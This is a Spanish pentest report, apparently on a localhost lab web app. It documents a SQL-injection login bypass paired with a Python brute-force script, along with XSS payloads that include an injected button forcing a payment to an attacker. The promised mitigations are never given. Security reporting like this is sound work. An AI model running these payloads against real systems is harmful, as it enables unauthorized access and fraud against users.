

# **Informe de Pentesting**  
### **Aplicación Web: Web_Talent-ScoutTech**

---

## **1. Introducción**  
Este informe detalla las vulnerabilidades identificadas durante un pentesting realizado en la aplicación web **Web_Talent-ScoutTech**. El análisis se centra en las siguientes categorías:  
- Inyección SQL (SQLi)  
- Cross-Site Scripting (XSS)  

Cada hallazgo se presenta con su respectiva descripción, pasos de explotación, evidencias y recomendaciones para su mitigación.

---

## **2. Inyección SQL (SQLi)**  

### **Descripción**  
Se identificó una vulnerabilidad de inyección SQL en la página `list_players.php`. Esta vulnerabilidad permite a un atacante acceder al sistema sin credenciales válidas, manipulando las consultas SQL ejecutadas en el servidor.

### **Detalles del hallazgo**  

1. **Ubicación de la vulnerabilidad**:  
   Página de inicio de sesión: `list_players.php`.  

2. **Evidencia inicial**:  
   Introduciendo un carácter `"`, el sistema devuelve un error que expone parcialmente la consulta SQL:  
   ```sql
   SELECT userId, password FROM users WHERE username = ""
   ```  

   **Captura de pantalla**:  
   .png)  

3. **Técnica utilizada**:  
   Se creó un script en Python que realiza fuerza bruta en combinación con la inyección SQL `" OR password="{contraseña}"-- -"` en el campo de usuario.  

   **Script de explotación**:  
   ```python
   import requests

   url = 'http://localhost:8080/list_players.php'
   passwords = ['password', '123456', '12345678', '1234', 'qwerty', 'dragon']

   for password in passwords:
       payload = {
           'username': f'" OR password="{password}"-- -',
           'password': password
       }
       response = requests.post(url, data=payload)
       if 'Players list' in response.text:
           print(f'Login successful: Password: {password}')
           break
   ```  

4. **Resultados obtenidos**:  
   El script logró acceder al sistema utilizando la contraseña `1234`.  

   **Captura de pantalla del resultado**:  
     

5. **Identificación del usuario**:  
   El usuario asociado fue identificado a través de las cookies almacenadas en el navegador. Sin embargo, inicialmente, las cookies mostraban la cadena SQL utilizada. Posteriormente, al agregar un comentario en la aplicación, el nombre del usuario quedó visible.  

   **Capturas de pantalla**:  
   - Cookies iniciales:  
       
   - Comentarios que revelan el usuario:  
       

### **Impacto**  
Un atacante puede acceder al sistema sin credenciales válidas, exfiltrar datos sensibles y comprometer la integridad del sistema.

---

## **3. Cross-Site Scripting (XSS)**  

### **Descripción**  
Se identificaron múltiples puntos de entrada vulnerables a ataques XSS en la aplicación. Estas vulnerabilidades permiten la ejecución de scripts maliciosos en el contexto del navegador de otros usuarios.

### **Detalles del hallazgo**  

1. **Ubicación de las vulnerabilidades**:  
   - `show_comments.php`  
   - `insert_player.php`  
   - `buscador.php`  

2. **Evidencia inicial**:  
   Inyección del payload `<script>alert('XSS detectado');</script>` en la página `show_comments.php`.  

   **Captura de pantalla**:  
     

3. **Explotación avanzada**:  
   - **`insert_player.php`**: Se inyectó código malicioso en el campo `Team`.  
   - **Payload utilizado**:  
     ```html
     <a href="http://web.pagos/donate.php?amount=100&receiver=attacker" style="text-decoration: none;">
         <button>Profile</button>
     </a>
     ```  

     **Captura de pantalla**:  
     .png)  

   - **Comentarios maliciosos**:  
     Se inyectó un payload para realizar pagos automáticos:  
     ```html
     
     ```  

     **Captura de pantalla**:  
     .png)  

### **Impacto**  
Un atacante puede ejecutar scripts maliciosos en los navegadores de las víctimas, robando cookies, redirigiendo a sitios externos o realizando acciones no autorizadas en su nombre.

---

## **4. Conclusión**  
El pentesting reveló vulnerabilidades críticas en la aplicación **Web_Talent-ScoutTech**. Estas permiten comprometer la confidencialidad, integridad y disponibilidad del sistema. Se recomienda aplicar las mitigaciones descritas con urgencia para garantizar la seguridad de los usuarios y la plataforma.
